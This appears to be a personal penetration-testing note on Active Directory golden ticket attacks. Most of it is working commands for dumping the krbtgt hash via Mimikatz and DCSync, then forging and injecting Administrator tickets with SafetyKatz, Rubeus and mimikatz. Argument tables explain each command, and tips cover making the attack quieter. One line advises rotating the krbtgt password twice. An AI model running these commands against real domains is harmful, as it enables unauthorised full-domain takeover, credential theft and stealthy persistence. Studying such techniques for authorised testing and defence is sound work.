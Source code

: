 ```yaml
---
tags:
  - persistence
aliases:
  - TGS-REQ
  - Kerberos
cssclasses:
  - MimiKatz
  - Rubeus
  - DCSync
  - LDAP
---
```

- A golden ticket is signed and encrypted by the hash of the krbtgt account which makes it a valid TGT ticket.
- This deals with abusing TGS-REQ 
- The krbtgt user hash could be used to impersonate any user with any privileges from even a non-domain machine.
- As a good practice, it is recommended to change the password of the krbtgt account twice as password history is maintained for the account.

#### Using MimiKatz

```powershell title:"Execute mimikatz on DC as Domain Admin to get krbtgt hash"
Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -ComputerName domain-controller
```

```batch title:"To use DCSync feature for getting AES keys for krbtgt account. Needs a user with replication rights on the domain object or a Domain Admin"
C:\AD\Tools\SafetyKatz.exe "lsadump::dcsync /user:domain\krbtgt" "exit"
```

- Using the DCSync option needs no code execution on the target DC.

```batch title:"Create golden ticket on any machine that has network connectivity with DC"
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /user:Administrator /domain:domain.name /sid:S-1-XXXXX /aes256:<aes256_key> /startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"
```

| Arguments            | Description                                                                                                                                            |
| -------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------ |
| kerberos::golden     | Name of the module                                                                                                                                     |
| /user:Administrator  | Username for which the TGT is generated                                                                                                                |
| /domain:domain.name  | FQDN                                                                                                                                                   |
| /sid:S-1-XXXXX       | SID of the domain                                                                                                                                      |
| /aes256:<aes256_key> | AES256 keys of the krbtgt account. Using AES keys makes the attack more silent                                                                         |
| /id:500 /groups:512  | Optional user RID (default 500) and Group (default 513 512 520 518 519)                                                                                |
| /ptt                 | Injects the ticket in current shell - no need to save the ticket on disk                                                                               |
| /ticket              | Saves the ticket to a file for later use                                                                                                               |
| /startoffset         | Optional when the ticket is available (default 0 - right now) in minutes. Use negative for a ticket available from past and a large number for future. |
| /endin:600           | Optional ticket lifetime (default is 10 years) in minutes. The default AD setting is 10 hours = 600 minutes                                            |
| /renewmax:10080      | Optional ticket lifetime with renewal (default is 10 years) in minutes. The default AD setting is 7 days = 10080                                       |
|                      |                                                                                                                                                        |
#### Using Rubeus

```batch title:"Forge a golden ticket with attributes similar to a normal TGT"
C:\AD\Tools\Rubeus.exe golden /aes256:<aes256_key> /sid:S-1-XXXXX /ldap /user:Administrator /printcmd
```

- Generates the ticket forging command. Note that 3 LDAP queries are sent to the DC to retrieve values:
	- To retrieve flags for user specific in /user
	- To retrieve `/groups`, `/pgid`, `/minpassage` and `/maxpassage`
	- To retrieve `/netbios` of the current domain
- If you have already enumerated the above values, manually specify as many as you can in the forging command, which is a bit more opsec friendly.

```batch title:"Forge the golden ticket"
C:\AD\Tools\Rubeus.exe golden /aes256:<aes256_key> /user:Administrator /id:500 /pgid:513 /domain:domain.name /sid:S-1-XXXXX /pwdlastset:"11/11/2022 6:33:55 AM" /minpassage:1 /logoncount:2453 /netbios:domain /groups:544,512,520,513 /dc:fqdn /uac:NORMAL_ACCOUNT,DONT_EXPIRE_PASSWORD /ptt
```

| Arguemnt                                  | Description                                                                          |
| ----------------------------------------- | ------------------------------------------------------------------------------------ |
| golden                                    | Name of the module                                                                   |
| /aes256                                   | AES256 keys of the krbtgt account. Using AES keys makes the attack more silent       |
| /user:Administrator                       | Username for which the TGT is generated                                              |
| /id:500                                   | User RID (retrieved from the DC) (Default 500)                                       |
| /pgid:513                                 | Primary Group ID (retrieved from the DC) (Default 513)                               |
| /groups:544,512,520,513                   | Groups the user is a member of (retrieved from the DC) (Default 520,512,513,519,518) |
| /domain:domain.name                       | FQDN of the domain (retrieved from the DC)                                           |
| /sid:S-1-XXXXX                            | SID of the current domain                                                            |
| /pwdlastset:"11/11/2022 6:33:55 AM"       | The PasswordLastSet for the user (retrieved from the DC)                             |
| /minpassage:1                             | "Minimum Password Age" in days (retrieved from the DC)                               |
| /logoncount:2453                          | Logon Count for the user (retrieved from the DC)                                     |
| /netbios:domain                           | NetBIOS name of the domain (retrieved from the DC)                                   |
| /dc:fqdn                                  | FQDN of the DC (retrieved from the DC)                                               |
| /uac:NORMAL_ACCOUNT, DONT_EXPIRE_PASSWORD | UserAccountControl Flags (retrieved from the DC)                                     |
| /ptt                                      | Inject in the current process                                                        |
```batch title:"Forge the golden ticket"
mimikatz # kerberos::golden /krbtgt:ntlm_hash /user:Administrator /sid:check_Bloodhound /id:check_Bloodhound /domain:domain.name
```
